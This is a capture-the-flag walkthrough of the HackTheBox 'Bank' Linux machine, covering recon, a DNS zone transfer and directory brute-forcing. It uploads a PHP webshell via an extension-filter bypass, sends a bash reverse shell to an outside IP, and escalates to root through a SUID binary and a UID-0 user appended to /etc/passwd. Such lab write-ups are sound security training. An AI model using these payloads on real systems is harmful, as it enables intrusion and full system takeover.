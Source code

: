 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.29
```

### 🔍 Targeted Script & Version Scan
```bash
nmap -p 22,53,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.29
```

### 🔍 UDP Scan (DNS)
```bash
nmap -p- -sU --min-rate 10000 -oA scans/nmap-alludp 10.10.10.29
```

---

## 🌐 DNS & VHost Enumeration

### 🔎 Zone Transfer to Discover Subdomains
```bash
dig axfr bank.htb @10.10.10.29
```

### 📝 Add to /etc/hosts
```
10.10.10.29 bank.htb chris.bank.htb ns.bank.htb www.bank.htb
```

### 🌐 Virtual Host Brute-Force
```bash
wfuzz -u http://10.10.10.29/ -H "Host: FUZZ.bank.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hh 11510
```

---

## 🧪 Web Enumeration [HTTP](HTTP.md)

### 🧱 Gobuster (PHP Extensions)
```bash
gobuster dir -u http://bank.htb \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php -t 50 -o scans/gobuster-bank.htb-root-medium-php
```

### 📂 Interesting Results
- `/balance-transfer/` → holds `.acc` files
- `/uploads/` → 403 Forbidden
- `/inc/` → contains internal PHP includes
- `/support.php` → file upload

---

## 🔓 Shell as `www-data`

### 📁 Analyze Balance-Transfer Files
```bash
curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | wc -l
curl http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
```
> Found one broken file with **plaintext creds**:  
> **Email**: chris@bank.htb  
> **Password**: `!##HTBB4nkP4ssw0rd!##`

### 🔐 Login via Web
> Log in to the portal using `chris / !##HTBB4nkP4ssw0rd!##`

---

## 🛠 Webshell Upload & Execution

### 🛡️ Filter Bypass – Debug Hint Reveals `.htb` Executable Extension

**Webshell**: `cmd.htb`
```php
<?php system($_REQUEST["cmd"]); ?>
```

**Execution**:
```bash
curl http://bank.htb/uploads/cmd.htb?cmd=id
```

### 🐚 Reverse Shell
Listener:
```bash
nc -lnvp 443
```

Payload:
```bash
curl http://bank.htb/uploads/cmd.htb \
--data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.41/443 0>&1"'
```

Shell Upgrade:
```bash
python -c 'import pty; pty.spawn("bash")'
# In local terminal:
stty raw -echo; fg
export TERM=screen
```

---

## 🔐 Privilege Escalation

### 🔍 SUID Binary Method #1 (Backdoor)
```bash
find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency  # Custom SUID root binary

/var/htb/bin/emergency
id && cat /root/root.txt
```

### 🔍 `/etc/passwd` Writable Method #2 (Manual Root User Injection)
```bash
# Create root-equivalent user
openssl passwd -1 0xdf
# Result: $1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0

echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:root:/root:/bin/bash' >> /etc/passwd
su - oxdf
```

---

## 🔍 Beyond Root

### 🔁 Improper Redirects
```php
// /inc/header.php
if(empty($_SESSION['username'])){
  header("location: login.php");
  return;  // ❌ Should be 'exit;' instead
}
```

### 🔍 SUID Analysis
```bash
md5sum /var/htb/bin/emergency
md5sum /bin/dash
# Identical → emergency is renamed dash
```